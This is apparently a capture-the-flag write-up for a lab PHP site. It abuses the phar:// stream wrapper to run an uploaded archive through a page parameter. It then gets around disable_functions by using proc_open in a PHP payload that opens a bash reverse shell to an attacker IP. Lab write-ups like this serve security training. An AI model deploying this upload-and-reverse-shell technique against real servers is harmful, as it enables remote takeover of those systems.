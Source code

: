 ![](images/Pasted%20image%2020250206151736.png)
Typically I think of needing a file to end in .php (or .ph3 or another known PHP extension to get execution). I also have to get around the fact that the script is going to add .php to the parameter I pass in.
I’m going to abuse the PHP Archive or PHAR format to get execution here. This is very similar to abusing the zip PHP stream wrapper way back in CrimeStoppers. The phar:// wrapper works with the format phar://[archive path]/[file inside the archive]. This means I can craft a URL that points to `phar://info.wither/info.php` (where I’ll let the site add the .php to the end), and that file will be run from within the archive.

To test this, I’ll try creating a file that just calls `phpinfo`, and call it `phpinfo.php`:
`<?php phpinfo(); ?>`
put it into a zip archive and upload it.
Now on visiting `http://dev.siteisup.htb/?page=phar://uploads/a26d8923adbfe58243ff1fe2b12d30a4/phpinfo.wither/phpinfo`
![](images/Pasted%20image%2020250206154718.png)
Then we can check the `disable_functions`
```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen
```
These functions won’t work, and include most of the ones necessary to get execution. However, I could notice that proc_open isn’t listed.
So we can make the payload
```
rev.php
<?php
        $descspec = array(
                0 => array("pipe", "r"),
                1 => array("pipe", "w"),
                2 => array("pipe", "w")
        );
        $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.5/443 0>&1'";
        $proc = proc_open($cmd, $descspec, $pipes);
?>
```